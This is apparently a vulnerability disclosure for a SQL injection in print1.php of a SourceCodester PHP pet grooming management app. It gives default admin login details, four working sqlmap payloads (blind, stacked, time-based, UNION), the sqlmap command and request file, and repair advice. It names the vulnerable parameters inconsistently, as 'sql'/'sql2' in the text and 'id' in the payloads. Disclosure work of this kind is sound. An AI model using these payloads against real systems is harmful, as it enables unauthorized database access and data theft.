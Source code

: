 # Pet grooming management print1.php  v.1.0 sql injection

# NAME OF AFFECTED PRODUCT(S)

- Pet grooming management

## Vendor Homepage

- [Pet grooming management software download | SourceCodester](https://www.sourcecodester.com/php/18340/pet-grooming-management-software-download.html)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- xiaoliyu-1
## VERSION(S)

- V1.0

## Software Link

- [Downloading Pet grooming management software download Code | SourceCodester](https://www.sourcecodester.com/download-code?nid=18340&title=Pet+grooming+management+software+download)

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was found in the 'print1.php' file of the 'Pet grooming management' project. The reason for this issue is that attackers inject malicious code from the parameter "sql","sql2" and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact

- Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION

- During the security review of "Pet grooming management", discovered a critical SQL injection vulnerability in the "print1.php" file. This vulnerability stems from insufficient user input validation of the 'sql' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# Login or authorization is required to exploit this vulnerability
1、Log in to the system using the default password [mdkhairnar92@gmail.com](mailto:mdkhairnar92@gmail.com): admin
2、By examining the /admin/print1.php code, it was discovered that the sql and sql2 parameter was concatenated in the SQL statement

# Vulnerability details and POC

## Vulnerability type:

- time-based blind
- UNION query
- stacked queries
- boolean-based blind

## Vulnerability location:

- 'sql','sql2' parameter

## Payload:

```
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://127.0.0.1/admin/print1.php?id=' AND 8097=(SELECT (CASE WHEN (8097=8097) THEN 8097 ELSE (SELECT 8193 UNION SELECT 9429) END))-- oJLZ
    Vector: AND [RANDNUM]=(SELECT (CASE WHEN ([INFERENCE]) THEN [RANDNUM] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))[GENERIC_SQL_COMMENT]

    Type: stacked queries
    Title: MySQL >= 5.0.12 stacked queries (comment)
    Payload: http://127.0.0.1/admin/print1.php?id=';SELECT SLEEP(5)#
    Vector: ;SELECT IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])#

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://127.0.0.1/admin/print1.php?id=' AND (SELECT 6055 FROM (SELECT(SLEEP(5)))Xkso)-- XqjD
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])

    Type: UNION query
    Title: Generic UNION query (NULL) - 18 columns
    Payload: http://127.0.0.1/admin/print1.php?id=' UNION ALL SELECT NULL,NULL,CONCAT(0x7170706271,0x76534756724141484c764f55575a65756c6f4875526f7164634b55514270614e74554b4c4a697544,0x716b717671),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
    Vector:  UNION ALL SELECT NULL,NULL,[QUERY],NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```

![image-20250917114850.png](./assets/image-20250917114850.png)
 


## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:

```
sqlmap -r 1.req  --dbs -v 3 --batch --level 5
//1.req
GET /admin/print1.php?id=* HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="117", "Not;A=Brand";v="8"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=9mjrub6b6jfcfhk0lv26kugff3
Connection: close

```

# Attack results


![image-20250917115038.png](./assets/image-20250917115038.png)

# Suggested repair



1. **Use prepared statements and parameter binding:** Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.
2. **Input validation and filtering:** Strictly validate and filter user input data to ensure it conforms to the expected format.
3. **Minimize database user permissions:** Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.
4. **Regular security audits:** Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.
